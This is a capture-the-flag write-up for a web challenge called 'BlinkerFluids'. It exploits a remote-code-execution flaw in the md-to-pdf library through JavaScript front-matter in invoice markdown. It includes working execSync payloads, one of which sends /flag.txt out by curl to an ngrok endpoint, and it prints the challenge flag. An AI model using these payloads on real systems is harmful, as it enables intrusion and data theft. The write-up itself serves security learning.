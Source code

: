# BlinkerFluids

## Challenge

```
Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr.
The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp.
Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server.
Can you help him?
```

Category: Web

Points: 300

## Writeup

Opening the challenge site we can see a list of some invoices, that are available for download in PDF format.

A button on the bottom of the list can be used to create a new invoice.

![list](images/list.png)

On the page for creating a new invoice we can see a rich text field, we can put in some markdown text and, on save, it will be converted into a PDF file.

Considering that markdown permits us to put some HTML code inside it, the first thing we try is to perform some basic XSS attack, but nothing seems to work.

At this point, we started to inspect the [source code](web_blinkerfluids.zip) of the site, to find something interesting.

The first thing we notice is the flag `--no-sandbox` in the pdf generation method options.

After searching for the library that is used to perform the conversion from Markdown to PDF (`md-to-pdf`), we discovered that has an RCE vulnerability affection the versions before 5.0.0.

For some tests we started the docker container locally and try the PoC payload in the references:

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

And it works!

We tried to read the local fake flag file instead of `id` and it worked!

```
---js\n((require("child_process")).execSync("cat /flag.txt > /tmp/RCE.txt"))\n---RCE
```

Now we have tried to create a reverse shell but the library or the container continues to stop the shell process.

At this point, we tried something less advanced, but still effective.

In the Dockerfile you can see that is installed curl in the container, so we used it to make a call to an our ngrok endpoint with the flag in the URL:

Create an invoice with this payload and we can see the flag on the request URL:

```
---js\n((require("child_process")).execSync("curl http://<ngrok-url>/$(cat /flag.txt)"))\n---RCE
```

![requests1](images/requests1.png)

Unfortunately, some characters are not encoded correctly, so we need to encode them, maybe in base64, before sending the request.

```
---js\n((require("child_process")).execSync("curl http://<ngrok-url>/$(cat /flag.txt | base64)"))\n---RCE
```

And now we can see the correct encoded flag:

![requests2](images/requests2.png)

> References:
>
> - [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880)
> - [https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

## Flag

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```
